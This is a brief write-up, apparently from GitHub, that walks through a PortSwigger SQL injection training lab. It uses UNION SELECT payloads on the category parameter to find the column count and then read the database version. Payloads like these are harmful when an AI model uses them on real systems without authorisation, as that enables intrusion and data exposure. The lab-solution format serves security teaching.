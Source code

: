 ## Welcome, my friend. Today we will start the [5. SQLLI lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/344c3d04-b03d-499a-9b99-8bc0bff36c24)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/3351e78c-f99b-42ff-95d4-3df1c0434d0b)

### Ok, Let's go to param and test by this payload:

```
filter?category=Gifts'+UNION+SELECT+'a'%23
```

![image](https://github.com/user-attachments/assets/08a47011-08f6-41b1-8ccc-74103f3192d8)

### Ok, no there one value , Let's go guess 2 value:

```
filter?category=Gifts'+UNION+SELECT+'a','b'%23
```

![image](https://github.com/user-attachments/assets/26294569-65e8-442e-bfda-c8d2cb3cc924)


### Wow, We discover this page and find category paramater   ```/filter?category=``` Is vulnerablity and inject this payload:

```
filter?category=Gifts'+UNION+SELECT+'a',@@version%23
```

![image](https://github.com/user-attachments/assets/e43768b2-cfb7-45dc-9155-e368e24b16a1)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
